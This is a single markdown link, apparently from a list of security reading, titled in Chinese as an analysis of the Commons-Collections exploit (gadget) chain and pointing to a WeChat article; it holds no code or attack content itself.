[Commons-Collections 利用链分析](https://mp.weixin.qq.com/s/sraJ2K9R2CkLHiCcPK0wrA)
